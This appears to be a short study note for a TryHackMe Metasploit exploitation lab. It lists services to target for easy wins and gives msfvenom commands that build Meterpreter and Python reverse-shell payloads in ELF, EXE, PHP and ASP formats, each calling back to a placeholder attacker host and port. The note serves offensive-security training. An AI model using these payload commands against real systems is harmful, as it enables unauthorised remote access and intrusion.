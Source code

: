 # Metasploit: Exploitation

[Metasploit: Exploitation Room](https://tryhackme.com/room/metasploitexploitation)

Using Metasploit for scanning, vulnerability assessment and exploitation.

You may want to look for low-hanging fruits such as:
- `HTTP`: Could potentially host a web application where you can find vulnerabilities like SQL injection or Remote Code Execution (RCE). 
- `FTP`: Could allow anonymous login and provide access to interesting files. 
- `SMB`: Could be vulnerable to SMB exploits like MS17-010
- `SSH`: Could have default or easy to guess credentials
- `RDP`: Could be vulnerable to Bluekeep or allow desktop access if weak credentials were used.

## Payloads

Linux Executable and Linkable Format (elf)

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<10.10.X.X> LPORT=<XXXX> -f elf > rev_shell.elf
```

Windows

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<10.10.X.X> LPORT=<XXXX> -f exe > rev_shell.exe
```

PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<10.10.X.X> LPORT=<XXXX> -f raw > rev_shell.php
```

ASP

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<10.10.X.X> LPORT=<XXXX> -f asp > rev_shell.asp
```

Python

```bash
msfvenom -p cmd/unix/reverse_python LHOST=<10.10.X.X> LPORT=<XXXX> -f raw > rev_shell.py
```
